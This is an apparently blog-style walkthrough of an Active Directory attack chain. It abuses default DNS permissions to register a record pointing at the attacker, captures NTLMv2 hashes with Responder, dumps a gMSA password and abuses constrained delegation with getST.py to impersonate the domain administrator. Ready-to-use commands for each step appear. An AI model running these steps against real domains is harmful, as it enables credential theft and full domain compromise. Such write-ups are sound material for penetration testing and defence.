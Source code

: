 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```

![Image](/img/evil_dns/2.png)

![Image](/img/evil_dns/3.png)

After successfully adding a DNS entry associated with an IP attacker, you can get domain user netNTLM hash, that will access to the added DNS name fot example by smb or http with network netNTLM authentication. Moreover, this DNS record looks reliable, from the point of view of confidence in the resource. This can be used for targeted attacks.

So, after running Responder we get netNTLMV2 hash:

![Image](/img/evil_dns/4.png)

By collecting Active Directory dump and downloading it to the Bloodhound database, it became clear that the user Ted.Graves consists in the ITSupport group.

![Image](/img/evil_dns/5.png)

TED.graves can control the service account through the Group Managed Service Accounts functionality (GMSA), while having the ability to get password or NTLM belonging to SVC_INT user.

![Image](/img/evil_dns/6.png)

```
python3 gMSADumper.py -u username -p password -d domain.ru
```

![Image](/img/evil_dns/7.png)

SVC_INT user has the ability to request a service ticket and impersonate it for any user. Using in this case, the S4U2SELF/S4U2Proxy mechanism can be obtained by the privileges of the domain administrator.

![Image](/img/evil_dns/8.png)

```
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password'  -hashes :NTLM-hash -impersonate Administrator
```

![Image](/img/evil_dns/9.png)

After receiving the service ticket and export it to the environment, you can use the wmiexec.py to get interactive access to domain controller


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)